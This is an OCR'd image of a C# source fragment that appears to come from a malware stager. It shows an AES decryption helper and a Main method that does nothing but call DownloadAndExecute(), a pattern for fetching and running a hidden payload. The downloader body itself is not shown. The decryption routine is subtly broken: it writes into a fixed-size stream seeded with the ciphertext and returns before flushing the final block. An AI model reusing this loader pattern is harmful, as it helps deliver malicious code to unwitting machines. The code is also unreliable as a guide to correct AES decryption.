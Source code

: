 ```csharp

 private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
 {
 byte[] key = Encoding.UTF8.GetBytes(AESKey);
 byte[] IV = Encoding.UTF8.GetBytes(AESIV);

 using (Aes aesAlg = Aes.Create())
 {
 aesAlg.Key = key;
 aesAlg.IV = IV;
 aesAlg.Padding = PaddingMode.None;

 ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

 using (MemoryStream memoryStream = new MemoryStream(ciphertext))
 {
 using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
 {
 cryptoStream.Write(ciphertext, 0, ciphertext.Length);
 return memoryStream.ToArray();
 }
 }
 }
 }

 public static void Main(String[] args)
 {
 DownloadAndExecute();
 }
 }
}
```
